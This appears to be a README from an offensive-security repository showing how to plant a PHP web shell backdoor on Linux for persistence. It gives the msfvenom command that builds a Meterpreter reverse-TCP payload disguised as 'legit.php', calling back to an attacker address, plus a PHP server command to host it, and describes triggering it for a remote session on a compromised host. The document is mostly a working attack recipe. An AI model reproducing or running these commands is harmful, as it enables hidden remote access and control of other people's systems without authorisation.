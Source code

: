 # LINUX PERSISTENCE VIA WEB SHELL BACKDOOR

This demo illustrates the process of creating a PHP backdoor using msfvenom, setting up a web server to host the backdoor, and establishing persistence by triggering the backdoor on demand.  
This technique allows for remote access via Metasploit's Meterpreter session.  


## Instructions

Create the php backdoor with [*msfvenom*](https://www.offsec.com/metasploit-unleashed/msfvenom/):  
```sh
msfvenom -p php/meterpreter/reverse_tcp LHOST=<YOUR-ADDRESS> LPORT=4444 -f raw -o legit.php
```  

Spin up a php web dev server to expose the backdoor:  
```sh
php -S <YOUR-ADDRESS>:80
```  

Now you can trigger that backdoor "on-demand" and obtain a session on the compromised linux host.  
Follwoing is a brief video depicting the full process:  





https://github.com/R3DRUN3/sploitcraft/assets/102741679/02a5cf1d-02c7-4253-9541-4966584db20a

